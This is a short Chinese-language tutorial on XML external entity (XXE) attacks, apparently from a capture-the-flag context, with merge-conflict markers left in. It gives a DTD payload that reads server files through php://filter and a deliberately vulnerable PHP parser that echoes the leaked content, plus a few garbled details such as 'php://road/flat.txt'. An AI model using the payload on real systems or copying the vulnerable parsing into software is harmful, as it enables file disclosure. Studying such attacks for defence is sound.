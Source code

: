 <<<<<<< HEAD
​					
=======
​					

## 													XML实体类攻击(XXE)

我们都知道XML脚本用于在web端与端间存储与传输数据,  并且其对DTD的引用分为外部实体类与内部实体类等.

一般地，对于XML脚本，我们有如下典型元素:

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE root [
  <!ELEMENT root (user, password,email)>
<!ELEMENT user (#PCDATA)>
<!ELEMENT password (#PCDATA)>
<!ELEMENT email (#PCDATA)>
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../index.php">
<!ENTITY e "???">
]>
<root>
  <!--external entity-->
  <user>&xxe;</user>
  <password>mypass&quot;</password>
  <!--enternal entity-->
  <email>&e;</email>
</root>
<!--payload.xml-->
```

由DOM的知识可知，我们使用PHP或者JAVASCIRPT脚本去将XML脚本解析为树形DOM, 其叶子节点即为元素中的值，并在浏览器或者终端回显出某些特定的值。

以上述脚本为例, 假如我们需要回显标签为email的元素, 我们可以在浏览器的控制台写出如下代码:

```javascript
if (window.XMLHttpRequest) {
  // code for IE7+, Firefox, Chrome, Opera, Safari
  xmlhttp = new XMLHttpRequest();
} else {
  // code for IE6, IE5
  xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}
xmlhttp.open("GET", "payload.xml", false);
xmlhttp.send();
xmlDoc = xmlhttp.responseXML;

//获取email 标签下的内部实体类
xmlDoc.getElementsByTagName("email")[0].childNodes[0].nodeValue;
// parse.js
```

其中, 以&xxe为例的外部实体类结合php伪协议, 我们可以泄露一些服务器内的文件.

但是我们惊喜地发现, javascript是无法解析php的外部实体类的.

所以在考虑文件泄露时, 我们只能利用后端代码, 如php, java等.

考虑服务器端代码:

```php
<?php
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

/*将xml格式的payload当作通过POST协议, 作为字符串传给xmlfile*/
$dom = new DOMDocument();
/*将xml字符串解析为数组*/
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
/*查看外部实体类, 泄露flag*/
var_dump($creds);
?>
```

其中, file_get_contents(“php://input”)语句用于将客户端POST参数直接打成字符串并回显.

很显然, 这是一个可以解析我们注入的XML并回显特定信息的代码段.

我们构造payload，在DTD特定的位置插入php://road/flat.txt, 查看回显即可.
>>>>>>> 4377fefccc402da0f9e7523173f42e5a1a975410
